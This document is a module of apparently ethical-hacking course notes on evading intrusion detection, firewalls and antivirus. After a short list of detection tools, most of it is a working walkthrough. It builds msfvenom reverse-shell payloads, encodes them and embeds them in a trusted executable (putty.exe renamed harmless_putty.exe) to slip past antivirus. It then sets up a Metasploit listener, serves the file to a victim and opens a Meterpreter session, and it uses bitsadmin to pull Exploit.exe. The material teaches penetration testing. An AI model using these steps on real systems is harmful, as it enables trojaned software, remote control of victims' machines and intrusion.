 # Module 12

## Evading IDS, antivirus and Honeypots
Intrusion Detection Systems (IDS) add a critical security layer, making them prime targets. Attackers use sophisticated evasion techniques to bypass detection and compromise the infrastructure. Similarly, firewalls relying on predefined rules can be tricked by skilled attackers using various bypass methods to allow malicious traffic to pass unfiltered.

---

### 1. Intrusion Detection using various tools
The goal of the Intrusion Detection Analyst is to find possible attacks against a network.

#### 1.1 Detect Intrusion using snort
[Snort - Network Intrusion Detection & Prevention System](https://www.snort.org/)

#### 1.2 Detect Malicious traffic with Zone alarm free firewall
[ZoneAlarm Free Firewall](https://www.zonealarm.com/software/free-firewall)

#### 1.3 Detect Malicious traffic using HoneyBot
[HoneyBot](https://honeybot.software.informer.com)

#### 1.4 Deploy Cowrie Honeypot to Detect Malicious Network Traffic
Cowrie serves as an SSH and Telnet honeypot, capable of capturing brute-force attacks and the actions taken by attackers within the shell.
[GitHub - cowrie/cowrie: Cowrie SSH/Telnet Honeypot https://cowrie.readthedocs.io](https://github.com/cowrie/cowrie)

---

### 2. Evade Firewall using Evasion Techniques
<img width="428" height="575" alt="image" src="https://github.com/user-attachments/assets/a333df1e-0c81-4fb8-8f58-7872bb5c2bac" />

#### 2.1 Bypass firewall using Nmap
Add a rule in windows firewall to block all traffic from the attacking machine.
In Ping sweep, the host will appear as online
- `nmap -sP 192.168.18.0/24`  only discover which hosts are up
Zombie scan can bypass the firewall rule
- `nmap -sI 192.168.18.2 192.168.18.11`  .2 is the zombie, .11 is the target

#### 2.2 Bypass firewall rules using HTTP/ FTP Tunneling 
HTTPort is a tool that bypasses restrictive HTTP proxies. It tunnels blocked traffic (like email or FTP) through an allowed HTTP connection.

**It works by**:
1. Sending data to a remote server (HTTHost) outside the blocked network using a series of HTTP requests.
2. The proxy sees this as normal web surfing and allows it.
3. The HTTHost server then forwards the traffic to the intended destination.
> This method is reliable and features strong encryption, making proxy logs useless.
[HTTPort, secure TCP through HTTP tunneling](https://www.targeted.org/htthost/)

**Steps**:
You generated a basic, easily detectable payload:
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.111.208 LPORT=4444 -f exe -o payload.exe`
Generate a New, Encoded Payload:
- `msfvenom -p windows/shell_reverse_tcp LHOST=172.16.111.208 LPORT=4445 -x template.exe -k -e x86/shikata_ga_nai -i 5 -f exe -o basic_shell.exe`
You downloaded putty.exe to use as a legitimate template:
- `wget https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe -O template.exe`
You injected your payload into that template to create a more evasive executable:
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.111.208 LPORT=4444 -x template.exe -k -f exe -o harmless_putty.exe`
**Result**: Your final payload is saved as harmless_putty.exe.    

Start the Listener on Your Kali Machine
- `msfconsole -q`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST 172.16.111.208`
- `set LPORT 4444`
- `exploit` or `exploit -j`

Download harmless_putty
- Open a new terminal and start a web server to host your harmless_putty.exe file so the victim can download it.
  - `cd ~`
  - `python3 -m http.server 80`
- Download on Victim Machine: On the victim machine (172.16.111.207), open a web browser and go to: http://172.16.111.208    
- Download the harmless_putty.exe file.    
- Execute the Payload: On the victim machine, run the harmless_putty.exe
- Catch the Shell: As soon as the payload is executed, you will see a message in your Metasploit console:

      [*] Sending stage (175774 bytes) to 172.16.111.207
      [*] Meterpreter session 1 opened (172.16.111.208:4444 -> 172.16.111.207:[PORT])
- Interact with the Session: Type the following command at the Metasploit prompt to interact with the victim: `sessions -i 1`
- You are all set! Your listener is active. Just transfer and run the payload on the victim machine to get your Meterpreter session.

#### 2.3 Bypass antivirus using metasploit templates
Attackers use msfvenom with the -x flag to embed a malicious payload into a legitimate, trusted executable file (like calc.exe). This tricks antivirus software into seeing the file as safe because it recognizes the trusted program's signature, allowing the hidden payload to bypass detection.

**How It's Done**
1. Acquire a Legitimate Template: Find a clean, signed executable from a trusted source. This will be your new template.
2. Inject the Payload: Use msfvenom to inject your malicious Metasploit payload (e.g., a reverse shell) into this legitimate executable.
3. The Bypass: The resulting file has the digital signature and code structure of the trusted software, but contains your hidden payload. AV is less likely to flag it because it appears to be a known-good program.

**Basic msfvenom Command**
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -x /path/to/legitimate_file.exe -k -f exe -o malicious_output.exe`
  - `-x /path/to/legitimate_file.exe`: Specifies your clean template.
  - `-k`: Tells Metasploit to preserve the template's original functionality alongside the payload. The legitimate program will still run to avoid suspicion.

---

#### 2.4 Bypass firewall using windows BITSAdmin
The utilty can be used to transfer files in windows command prompt.    
BITS (Background Intelligent Transfer Service) is an essential component of Windows XP and later versions of Windows operating systems. BITS is used by system administrators and programmers for downloading files from or uploading files to HTTP webservers and SMB file shares. BITSAdmin is a tool that is used to create download or upload jobs and monitor their progress.
bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe

---
---
